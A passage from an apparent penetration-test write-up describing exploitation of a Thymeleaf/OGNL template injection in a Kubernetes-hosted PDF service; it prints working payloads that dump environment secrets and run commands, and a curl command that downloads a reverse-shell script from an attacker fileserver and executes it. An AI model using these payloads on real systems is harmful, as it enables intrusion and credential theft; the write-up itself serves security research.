 ## Exploitation

So far we know the following:

1. We are dealing with 2 applications, that live inside a Kubernetes Cluster:

   * One the user requests the pdf from, which forwards the request to the other.

   * One that performs the actual template rendering and returns the location of the file. (The vulnerable one)
2. We can tamper our user's first and last name, in order to attack the app.
3. Template engine is Thymeleaf
4. Expression Language used is OGNL
5. Max payload length is 45 chars and we can extend it by combining both injection points.

**Demonstating Impact**

A go-to for Java RCE payload is `[[${@java.lang.System@getenv()}]]`, which satisfies our length limitations. The pdf came back containing tons of internal cluster information and other sensitive information. The most impressive were Oauth credentials for privileged clients and AWS API keys. This was enough, to escalate the vulnerability to critical severity, but we want to get the holy grail of pentesting, a reverse shell, right ?

**Getting a shell**

First bash command I executed was `id` with `lastName firstName` set to `[[${@java.lang.Runtime@getRuntime().exec("" +"id")}]]` and guess what ?!

![javarce](./assets/javapdfrce.png)

Well payload length restrictions, don't allow us the luxury of `inputStreams` and other Java demons, but with this semi-blind command execution, we are good to go. Next thing I went for was a bash reverse shell [one-liner](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp), which executed without any errors, but got me no connection back. I concluded that something didn't really like all these special characters, especially `&`. I worked around this, by chaining a few commands to download and execute the one-liner as a script.

```bash
/bin/curl http://<fileserver>/s -o /tmp/s
/bin/chmod +x /tmp/s
/tmp/s
```

**Inside the Cluster**
